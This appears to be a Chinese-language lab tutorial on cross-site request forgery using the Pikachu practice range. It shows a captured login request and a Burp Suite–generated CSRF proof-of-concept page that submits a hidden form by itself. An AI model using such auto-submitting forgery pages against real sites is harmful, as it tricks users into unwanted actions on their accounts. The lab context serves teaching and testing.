 ## CSRF(跨站请求伪造)

​		Cross-site request forgery  简称为“CSRF”，在CSRF的攻击场景中攻击者会伪造一个请求（这个请求一般是一个链接），然后欺骗目标用户进行点击，用户一旦点击了这个请求，整个攻击就完成了。所以CSRF攻击也成为"one click"攻击。

### 靶场演示

**pikachu靶场**：**CSRF-Get**、**CSRF-Post**、**CSRF-Token**

用burpsuite抓登录包

<img src="PictureFile/【Web】TOP漏洞.assets/image-20231025200628348.png" alt="image-20231025200628348" style="zoom: 67%;" />

数据包内容如下：

```
GET /pikachu/vul/csrf/csrfget/csrf_get_login.php?username=vince&password=123456&submit=Login HTTP/1.1
Host: 192.168.229.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.229.131/pikachu/vul/csrf/csrfget/csrf_get_login.php
Cookie: PHPSESSID=ab3u33vohoh383aj1e9ja3ukff
Upgrade-Insecure-Requests: 1
```

用burp生成csrf Poc：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://192.168.229.131/pikachu/vul/csrf/csrfget/csrf_get_login.php">
      <input type="hidden" name="username" value="vince" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="submit" value="Login" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
```